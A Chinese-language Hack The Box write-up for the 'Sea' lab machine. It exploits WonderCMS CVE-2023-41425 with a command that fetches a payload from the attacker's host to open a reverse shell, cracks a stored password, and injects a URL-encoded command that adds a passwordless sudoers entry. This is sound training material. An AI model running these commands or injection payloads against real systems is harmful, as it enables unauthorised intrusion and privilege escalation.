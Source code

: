 ```yaml
---
title: "HTB-Sea"
date: 2024-08-28
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Port & Dir scan

![](./images/image-78.png)

![](./images/image-79.png)

发现一个contact.php。进去看看

![](./images/image-80.png)

尝试抓包看看。并没有什么回显。

![](./images/image-81.png)

尝试扫描一下其他的目录。

![](./images/image-82.png)

dirsearch没扫出来，用gobuster扫描出了一个bike目录。

![](./images/image-83.png)

重要的是这个license

![](./images/image-84.png)

![](./images/image-86.png)

这里暴露出了作者的名字

## Github resource

![](./images/image-87.png)

看来网站似乎是用的这个WonderCMS，其中的LICENSE是一模一样的。

![](./images/image-88.png)

当前CMS的版本的3.2.0

![](./images/image-89.png)

而经过查找漏洞，发现在WonderCMS的v3.2.0到v3.4.2之间存在漏洞

![](./images/image-90.png)

## CVE-2023-41425

POC地址：[insomnia-jacob/CVE-2023-41425: WonderCMS RCE CVE-2023-41425 (github.com)](https://github.com/insomnia-jacob/CVE-2023-41425)

检查exploit.py中的代码，发现访问的是这个路由

![](./images/image-92.png)

这个路由也是存在的。

![](./images/image-93.png)

那么就开始攻击。

![](./images/image-99.png)

```
┌──(root㉿kali)-[/home/kali/CVE-2023-41425]
└─# python exploit.py -u http://sea.htb/loginURL -i 10.10.16.16 -p 4444 -r http://10.10.16.16/main.zip
```

记得要在本地监听端口

![](./images/image-95.png)

回到contact.php，将exp执行后下面出现的link给传上去。

![](./images/image-97.png)

即可反弹shell，当前用户权限是普通的www-data，要想办法提权

![](./images/image-100.png)

kali上有linpeas的脚本，开一个httpserver然后靶机下载就行。记得在/tmp目录下才有写的权限。

![](./images/image-101.png)

成功执行，不过有点慢

![](./images/image-102.png)

发现有这几个CVE。

![](./images/image-103.png)

这个CVE-2021-3156看起来似乎能用。

![](./images/image-105.png)

不过这个几个漏洞都用不了。

## Brute Force

在/var/www/sea目录下面发现一个database.js

![](./images/image-106.png)

其中有一个密码字段，这里使用hashcat和rockyou字典来破解，字符串里的反斜杠一定要去掉，不然会报错。（以及虚拟机内存一定要开大一点，原来虚拟机2G的内存连hashcat都跑不起来，把他加大到8个G才成功）

![](./images/image-108.png)

得到密码是：**mychemicalromance**

查看/etc/passwd，发现有两个可疑的用户名

![](./images/image-109.png)

尝试登陆amay，成功进入！

![](./images/image-110.png)

## Privilege Escalation

不过amay并不在超级用户中

![](./images/image-111.png)

之前linpeas的输出中发现有8080和33815这两个端口，不过外部访问不了，只能自己在命令行里看。

![](./images/image-112.png)

有的网站需要用到身份认证，可以使用-u 或者--user 来进行传参，这里用amay的用户密码可以正常访问

![](./images/image-113.png)

```
ssh -v -N -L 8080:localhost:8080 amay@sea.htb
#v是详细模式，N是只转发端口，L是转发本地端口，这里仅做一个端口映射，便于本地访问
```

![](./images/image-115.png)

点击access.log之后出现日志，这里可以抓包修改文件名读取任意文件。

![](./images/image-116.png)

不仅如此，还可以执行命令。

![](./images/image-117.png)

尝试给amay加一点权限呢

```
/etc/passwd+&&+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
#一定要url编码一下
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```

![](./images/image-118.png)

成功拿到root权限

root的flag在root下的root.txt中，user的flag在/home/amay目录里。

## Summary

第一次接触国外的在线靶场，感觉这个hackthebox还不错，虽然是边看wp边做的，不过收获还是很多。
